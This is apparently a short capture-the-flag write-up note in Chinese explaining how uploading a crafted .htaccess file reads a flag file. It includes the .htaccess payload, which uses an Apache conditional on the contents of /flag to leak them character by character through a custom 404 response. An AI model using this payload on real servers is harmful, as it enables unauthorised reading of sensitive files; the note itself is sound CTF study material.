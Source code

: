 - # WP
	-
	- 利用上传[`.htaccess`]([[CTF/PHP/htaccess]])读flag文件
	- .htaccess的内容
		- ```
		  <If 'file("/flag") > "CONTENT"'>
		  ErrorDocument 404 "x_x"
		  </If>
		  ```
	-